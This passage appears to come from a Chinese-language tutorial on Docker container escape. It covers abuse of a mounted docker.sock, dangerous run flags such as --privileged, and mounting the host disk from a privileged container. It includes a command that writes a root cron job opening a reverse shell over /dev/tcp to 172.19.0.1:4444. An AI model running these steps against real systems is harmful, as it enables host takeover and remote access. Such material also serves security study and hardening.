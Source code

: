 2.  在容器查看宿主机 docker 信息：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock info<br>``` |

3.  运行一个新容器并挂载宿主机根路径：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock run -it -v /:/test ubuntu /bin/bash<br>``` |

4.  在新容器的 /test 目录下，就可以访问到宿主机的全部资源，接下来就是写入 SSH 密钥或者写入计划任务，获取 shell。

### [](#33-docker-%E9%AB%98%E5%8D%B1%E5%90%AF%E5%8A%A8%E5%8F%82%E6%95%B0)3.3 Docker 高危启动参数

Docker 中存在一些比较高危的启动命令，给予容器较大的权限，允许执行一些特权操作，在一定的条件下，可以导致容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>docker run --rm -it <br>    --privileged <br>    -v /:/soft <br>    --cap-add=SYS_ADMIN <br>    --net=host  <br>    --pid=host    <br>    --ipc=host <br>    ubuntu <br>    /bin/bash<br>``` |

#### [](#%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F---privileged)特权模式 –privileged

使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

-   通过特权模式运行一个容器：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker run -itd --privileged ubuntu:latest /bin/bash<br>``` |

-   在容器内，查看磁盘文件：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>fdisk -l<br>``` |

-   将 `/dev/sda1` 挂载到新建目录

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>mkdir /test<br>mount /dev/sda1 /test<br>``` |

-   将计划任务写入到宿主机

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>echo '* * * * * /bin/bash -i >& /dev/tcp/172.19.0.1/4444 0>&1' >> /test/var/spool/cron/crontabs/root<br>``` |

### [](#34-docker-%E8%BD%AF%E4%BB%B6%E8%AE%BE%E8%AE%A1%E5%BC%95%E8%B5%B7%E7%9A%84%E9%80%83%E9%80%B8)3.4 Docker 软件设计引起的逃逸
